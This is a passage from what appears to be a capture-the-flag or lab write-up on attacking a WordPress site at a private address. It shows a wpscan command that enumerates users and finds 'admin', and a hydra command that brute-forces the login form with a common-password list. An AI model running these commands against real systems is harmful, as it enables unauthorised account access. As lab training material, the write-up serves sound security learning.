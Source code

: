 ![evidence](./static/05-index.png)

And I start to enumerate WordPress, When I use the `wpscan` command, and I already have a token after registering at https://wpscan.com/, and I have it stored in my env vars like `$WPSCAN_API`:
```shell
$ wpscan --url http://192.168.1.12/wordpress/ --enumerate u, ap \
> --api-token $WPSCAN_API

...SNIPPED...
[i] User(s) Identified:
[+] admin
| Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Confirmed By: Login Error Messages (Aggressive Detection)
...SNIPPED...
```
Then I identify the `admin` user, but I don't identify a vulnerability that I can exploit, and I decided to brute force the `admin` login.
When I use the `hydra` command with a list of Seclist:
```shell
$ hydra -l admin -P 10k-most-common.txt 192.168.1.12 http-form-post \
> '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=
> Location'
```
But it  can not find the password, then I search WordPress in Hacktricks, and[ I find a better use of `wpscan`](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#automatic-tools):
